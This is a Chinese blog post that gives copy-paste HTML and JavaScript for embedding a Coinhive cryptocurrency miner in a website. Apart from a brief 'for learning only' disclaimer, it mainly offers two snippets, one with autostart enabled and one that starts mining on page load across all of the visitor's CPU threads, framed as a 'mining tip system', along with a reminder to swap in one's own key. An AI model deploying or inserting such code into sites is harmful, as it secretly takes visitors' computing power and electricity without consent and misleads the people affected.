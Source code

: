 # 原创
：  在网站嵌入挖矿JS代码样式

# 在网站嵌入挖矿JS代码样式

> 
网站挖矿很不道德，纯学习娱乐，请勿用于非法途径.


Coinhive: [https://coinhive.com](https://coinhive.com) , 可以去网站看看，不过好像已经被墙了，其JS代码被Windows防火墙视为病毒，不知道还能不能用。。。

去官网注册一个账号，得几个key，去https://mymonero.com/ 注册账号，建立自己的钱包，这两个网站都需要操作，具体教程网上有。本文只提供网页样式。

## 官网样式

```
&lt;div&gt;
	&lt;script src="https://authedmine.com/lib/simple-ui.min.js" async&gt;&lt;/script&gt;
	&lt;div class="coinhive-miner" 
		style="width: 100%; height: 100px"
		data-key="YjyptNPkNzUZwQonjCLhkllZAW85Axyo"
		data-autostart="true"
		data-whitelabel="false"
		data-background="#000000"
		data-text="#eeeeee"
		data-action="#00ff00"
		data-graph="#555555"
		data-threads="7"
		data-throttle="0.1"&gt;
		&lt;em&gt;Loading...&lt;/em&gt;
	&lt;/div&gt;
&lt;/div&gt;

```

## 我以前用的样式

大概这个样子

### ⬇⬇~ 挖 矿 打 赏 系 统 ~⬇⬇
<td align="center">启动线程数</td><td align="center">当前算力(Hashs/秒)</td><td align="center">您已贡献(Hash单位：个)</td>
<td align="center">0</td><td align="center">0</td><td align="center">0</td>
<td align="center" colspan="3;">您正在打赏中，随时可以停止。</td>

```
&lt;div&gt;
	&lt;h3 align="center"&gt;⬇⬇~ 挖 矿 打 赏 系 统 ~⬇⬇&lt;/h3&gt;
	&lt;script src="https://coinhive.com/lib/coinhive.min.js"&gt;&lt;/script&gt;
	&lt;center&gt;
		&lt;table &gt;
			&lt;tbody&gt;
			&lt;tr&gt;
				&lt;td align="center"&gt;启动线程数&lt;/td&gt;
				&lt;td align="center"&gt;当前算力(Hashs/秒)&lt;/td&gt;
				&lt;td align="center"&gt;您已贡献(Hash单位：个)&lt;/td&gt;
			&lt;/tr&gt;
			&lt;tr&gt;
				&lt;td id="tcount" align="center"&gt;0&lt;/td&gt;
				&lt;td id="hps" align="center"&gt;0&lt;/td&gt;
				&lt;td id="ths" align="center"&gt;0&lt;/td&gt;&lt;/tr&gt;
			&lt;tr&gt;&lt;td colspan="3;" id="status" align="center"&gt;您正在打赏中，随时可以停止。&lt;/td&gt;&lt;/tr&gt;
			&lt;/tbody&gt;
		&lt;/table&gt;
	&lt;/center&gt;
	
	&lt;div&gt;&lt;p id="minebutton" style="text-align:center;"&gt;
		&lt;button onclick="miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)"&gt;停止挖矿打赏&lt;/button&gt;
	&lt;/p&gt;&lt;/div&gt;

	&lt;script type="text/javascript"&gt;
		var miner=new CoinHive.User
			("YjyptNPkNzUZwQonjCLhkllZAW85Axyo",
			"www.ds-vip.top",
			{threads:navigator.hardwareConcurrency,autoThreads:!1,throttle:.9,forceASMJS:!1});
		
		miner.start(CoinHive.FORCE_EXCLUSIVE_TAB),
		setInterval(function(){var e=miner.getNumThreads(),
		n=Math.round(100*miner.getHashesPerSecond())/100,
		t=miner.getTotalHashes();miner.getAcceptedHashes()/256;
		
		miner.isRunning()?(document.getElementById("tcount").innerHTML=e,document.getElementById("hps").innerHTML=n,	
		document.getElementById("ths").innerHTML=t,document.getElementById("status").innerHTML="您正在打赏中，随时可以停止。",
		document.getElementById("minebutton").innerHTML='&lt;button onclick="miner.stop()"&gt;停止挖矿打赏&lt;/button&gt;'):(document.getElementById("tcount").innerHTML="0",document.getElementById("hps").innerHTML="0",document.getElementById("ths").innerHTML=t,document.getElementById("status").innerHTML="您已经停止打赏，随时可以开始。",document.getElementById("minebutton").innerHTML='&lt;button onclick="miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)"&gt;开始挖矿打赏&lt;/button&gt;')},1e3)
	&lt;/script&gt;
&lt;/div&gt;

```

### ⬇⬇~ 挖 矿 打 赏 系 统 ~⬇⬇

记得改key。。。
